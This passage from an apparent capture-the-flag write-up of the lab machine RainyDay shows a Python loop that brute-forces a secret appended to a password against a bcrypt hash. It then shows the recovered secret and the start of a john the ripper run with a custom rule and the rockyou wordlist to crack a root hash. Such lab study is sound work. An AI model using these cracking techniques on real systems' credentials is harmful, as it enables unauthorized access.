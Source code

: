
Next, I’ll loop over potential characters, checking if any satisfy the hash,
and if so, break:

    
    
        # brute last character
        for c in string.printable[:-6]:
            print(f"\r{secret}{c}", end="")
            if bcrypt.checkpw((password + secret + c).encode(), hash):
                secret += c
                break
        # There is no more character - end loop
        else:
            break
    

When the `for` loop runs without finding success, I’ll break and assume I’ve
found the end of the hash.

At the end of the program I’ll print `secret`:

    
    
    print(f"\r{secret:50}")
    

I’ll save this on RainyDay, and run it. It finds the secret in less than two
seconds:

    
    
    jack_adm@rainyday:/dev/shm$ time python3 brute.py 
    H34vyR41n                                         
    
    real    0m1.561s
    user    0m1.031s
    sys     0m0.085s
    

### Crack root Hash

#### Create Rule

I’ll create a rules configuration in `john` to append “H34vyR41n” to the end
of each word in `rockyou.txt` and check it’s hash. If I try to run with a not
yet defined rule, it tells me that rule isn’t in `/opt/john/run/john.conf`
(this location will differ depending on how / where you install `john`):

    
    
    oxdf@hacky$ john root.hash --rules=rainyday --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 32 for all loaded hashes
    Will run 4 OpenMP threads
    No "rainyday" mode rules found in /opt/john/run/john.conf
    